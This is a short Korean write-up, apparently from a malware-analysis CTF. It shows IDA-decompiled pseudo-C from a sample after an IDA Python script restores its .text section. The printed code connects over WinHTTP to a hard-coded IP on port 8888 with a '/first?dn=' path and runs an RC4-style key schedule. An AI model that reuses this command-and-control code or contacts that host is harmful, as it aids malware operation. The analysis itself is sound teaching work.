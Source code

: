 `[shift] + [F2]`로 ida python 스크립트 삽입 가능하다.

스크립트로 `.text` 영역 원본 코드를 복구한다. 이후에는 원본 코드들이 디컴파일 된다.

```python
*(_QWORD *)&v32 = v16 + 10;
  *((_QWORD *)&v32 + 1) = v19;
  qmemcpy(v20, "/first?dn=", 10);
  memcpy((char *)v20 + 10, v17, v16);
  *((_BYTE *)v20 + v18) = 0;
  if ( Size[1] < 0x10 )
    goto LABEL_34;
  v23 = Src[0];
  if ( Size[1] + 1 >= 0x1000 )
  {
    v23 = (void *)*((_QWORD *)Src[0] - 1);
    if ( (unsigned __int64)(Src[0] - v23 - 8) > 0x1F )
LABEL_45:
      invalid_parameter_noinfo_noreturn();
  }
  j_j_free(v23);
LABEL_34:
  *(_OWORD *)Src = v31;
  *(_OWORD *)Size = v32;
  Block[0] = 0i64;
  v34 = 0i64;
  v35 = 7i64;
  sub_1400027D0(Block);
  memset(v38, 0, sizeof(v38));
  memset(&v38[2], 0, 264);
  v38[0] = WinHttpOpen(L"HTTP Application/1.0", 0, 0i64, 0i64, 0);
  v38[1] = WinHttpConnect(v38[0], L"43.202.4.134", 0x22B8u, 0);
  *(_OWORD *)&v38[3] = *(_OWORD *)L"43.202.4.134";
  v38[5] = *(HINTERNET *)L".134";
  LOWORD(v38[67]) = 8888;
```

`19D0` 함수를 보면 통신하는 url이 무엇인지 확인할 수 있다.

```python
do
  {
    *(_BYTE *)v4 = v3++;
    v4 = (HINTERNET *)((char *)v4 + 1);
  }
  while ( v3 < 256 );
  LOWORD(v38[32]) = 0;
  v5 = 0;
  v6 = 0;
  v7 = v38;
  do
  {
    v8 = *(_BYTE *)v7;
    v9 = v6 % v2;
    v5 += a20210622YjMhRe[v6 % v2] + *(_BYTE *)v7;
    *(_BYTE *)v7 = *((_BYTE *)v38 + v5);
    *((_BYTE *)v38 + v5) = v8;
    ++v6;
    v7 = (HINTERNET *)((char *)v7 + 1);
  }
  while ( v6 < 0x100 );
  if ( (int)v0 > 0 )
  {
    v10 = aFiesta2021Malw;
    v11 = (unsigned int)v0;
    v12 = BYTE1(v38[32]);
```